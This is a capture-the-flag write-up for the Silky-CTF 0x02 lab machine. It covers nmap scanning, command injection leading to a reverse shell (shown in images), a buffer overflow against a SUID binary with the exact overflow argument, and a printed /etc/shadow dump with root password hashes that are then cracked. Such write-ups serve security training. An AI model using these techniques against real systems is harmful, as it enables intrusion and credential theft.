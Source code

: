 # Silky-CTF 0x02

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 17:02 WEST
Nmap scan report for 10.0.2.33
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 eb:74:50:5c:6f:57:04:15:bd:8c:57:ff:eb:a2:9f:58 (RSA)
|   256 97:50:40:64:05:4e:57:44:7d:31:a7:60:84:0a:9d:5c (ECDSA)
|_  256 fe:6e:fa:67:54:96:a7:bd:54:45:10:30:1c:20:c3:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
````

#

### Port 80
#### Default Apache page

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/02bcf962-fc1e-4fe8-a57c-6513d694080b)

#

#### Gobuster

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/85e64934-4d15-45cc-af37-6955be9e981b)

#

#### /admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/84cd50c0-28ae-48e6-b7d6-aa97120e10af)


After pressing 'login', this form appears. No default credentials. Let's try SQLi. And analyze that image a bit since it seems weird. Steganography maybe?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d2262e0a-2e1a-439b-ae48-747681a187b9)

Ran a bunch of tools against the image (strings, text editors, hexeditor, etc...) and nothing.

Got command injection on 'username' GET parameter!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e70a95d4-3e27-4ac9-b3e0-240e611a996f)

#

#### Reverse Shell

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d4eabb79-c6f5-48ef-bef4-6096ca226afd)

#

### Privilege Escalation

There is an interesting file with the SUID bit in our home folder. It appears to be simply catting /etc/shadow, but I'll try running it with Pspy in parallel

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a758ef7d-b151-4639-9ba8-8f82fe62c36f)

Pspy doesn't show anything, but the program itself has an interesting output

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/8fafa8f7-1bfe-4764-a32a-52b5ff281a88)

Strings is a bit confusing, so I exfiltrated the file to my attacker machine

````
base64 cat_shadow -w0
(copy to clipboard, paste to a file inside my machine)
base64 -d b64Cat_shadow > cat_shadow
````

### Testing the binary

I fired up ghidra but I got nothing especial. I then tried a super long password in order to cause a buffer overflow, and the output on the left finally changed to something, previously it was always 0x0

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d877b364-026f-4d51-80fe-9ca3b20f5fcc)

So, I know what I have to do... And I found the position of the 4 characters that change the password

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6363903a-9763-4cf6-982b-4b512a8a9d50)


Sending AAAA in the payload part outputs the following

``0x41414141 != 0x496c5962``

Well, it's hex to ascii. Just have to switch the bytes around...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fa1c1fb4-4c2c-48ff-903a-1aa5f403382a)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/cbfd53fc-1cb5-49c7-8366-c95fa41ea2a6)

And boom! This is on my system so that's why we got permission denied. Let's try it on the victim

````
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow 0000000000000000000000000000000000000000000000000000000000000000bYlI0000000
Trying to read /etc/shadow           
Succes      
Printing...
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::
daemon:*:18012:0:99999:7:::
bin:*:18012:0:99999:7:::
sys:*:18012:0:99999:7:::
sync:*:18012:0:99999:7:::
games:*:18012:0:99999:7:::
man:*:18012:0:99999:7:::
lp:*:18012:0:99999:7:::
mail:*:18012:0:99999:7:::
news:*:18012:0:99999:7:::
uucp:*:18012:0:99999:7:::
proxy:*:18012:0:99999:7:::
www-data:*:18012:0:99999:7:::
backup:*:18012:0:99999:7:::
list:*:18012:0:99999:7:::
irc:*:18012:0:99999:7:::
gnats:*:18012:0:99999:7:::
nobody:*:18012:0:99999:7:::
systemd-timesync:*:18012:0:99999:7:::
systemd-network:*:18012:0:99999:7:::
systemd-resolve:*:18012:0:99999:7:::
systemd-bus-proxy:*:18012:0:99999:7:::
_apt:*:18012:0:99999:7:::       
dnsmasq:*:18012:0:99999:7:::
avahi-autoipd:*:18012:0:99999:7:::
messagebus:*:18012:0:99999:7:::
usbmux:*:18012:0:99999:7:::
geoclue:*:18012:0:99999:7:::
speech-dispatcher:!:18012:0:99999:7:::
rtkit:*:18012:0:99999:7:::
pulse:*:18012:0:99999:7:::
avahi:*:18012:0:99999:7:::
colord:*:18012:0:99999:7:::
saned:*:18012:0:99999:7:::
Debian-gdm:*:18012:0:99999:7:::
hplip:*:18012:0:99999:7:::
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::
mysql:!:18012:0:99999:7:::
sshd:*:18012:0:99999:7:::
````

Let's unshadow and crack this. So I saved the important bits of /etc/shadow and /etc/passwd to my machine

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fdeed623-9f36-4dc2-b20f-840a38882a3e)

And now we play the waiting game

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/61254f7c-3970-4226-a1d4-4d2ee4a9f7b5)

A few minutes later

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/509b80b2-c1a9-4a5d-83f3-da8b0e8684bb)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/965711a5-e175-4531-8208-760a556cf98d)


Really fun CTF! But I'm not sure how this relates to the OSWE
